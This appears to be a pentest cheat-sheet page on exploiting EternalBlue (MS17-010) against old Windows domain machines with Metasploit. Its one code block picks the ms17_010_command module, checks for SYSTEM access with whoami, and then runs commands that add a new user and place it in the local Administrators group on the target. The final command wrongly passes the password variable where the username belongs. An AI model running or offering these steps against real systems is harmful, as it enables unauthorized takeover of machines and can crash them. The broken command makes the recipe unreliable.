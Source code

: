 # EternalBlue [MS17-010]
---

> [!CAUTION]
> EternalBlue exploit is not stable and might cause a **crash** of the target.

#### 🤓 RTFM

TODO

#### 📝 Prerequisites

- Windows XP or 2003 domain computer.

#### 🛠️ Do it!

```bash
# Start metasploit.
msfconsole

# Look for eternalblue exploit.
search eternalblue

# Take (auxiliary/admin/smb/ms17_010_command).
use 2

# Setup the exploit to check exploitability (should return local\SYSTEM).
set COMMAND whoami
set RHOSTS $IP
run

# To gain administrative access.
set COMMAND net user $USERNAME $PASSWORD /add;net localgroup Administrators $PASSWORD /add
run
```

#### 🏆 What's next?

TODO